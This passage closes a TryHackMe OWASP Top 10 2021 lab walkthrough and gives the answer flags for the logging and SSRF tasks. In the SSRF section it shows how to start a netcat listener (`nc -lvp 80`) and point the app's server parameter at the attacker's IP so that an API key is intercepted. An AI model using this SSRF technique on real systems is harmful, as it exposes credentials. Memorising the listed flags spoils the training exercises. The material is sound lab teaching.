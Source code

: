 **=> Answer: `THM{Dont_take_cookies_from_strangers}`**

### 21. 9. Security Logging and Monitoring Failures

-   What IP address is the attacker using?

**=> Answer: `49.99.13.16`**

-   <p>What kind of attack is being carried out?<br /></p>

**=> Answer: `Brute Force`**

### 22. 10. Server-Side Request Forgery (SSRF)

-   <p>Explore the website. What is the only host allowed to access the admin area?</p>

![Guide image](/images/posts/owasp-top-10-2021-20.png)

**=> Answer: `localhost`**

-   <p>Check the "Download Resume" button. Where does the server parameter point to?</p>

![Guide image](/images/posts/owasp-top-10-2021-21.png)

**=> Answer: `secure-file-storage.com`**

-   Using SSRF, make the application send the request to your AttackBox instead of the secure file storage. Are there any API keys in the intercepted request?

-   Run a gateway on port 80

```bash
nc -lvp 80
```

-   Change the `/download?server=<YOUR_IP>:80..` url in `Download resume` link

![Guide image](/images/posts/owasp-top-10-2021-23.png)

-   Go back to your terminal to get the flag

![Guide image](/images/posts/owasp-top-10-2021-22.png)

**=> Answer: `THM{Hello_Im_just_an_API_key}`**

### 23. What Next?

_No hints needed!_
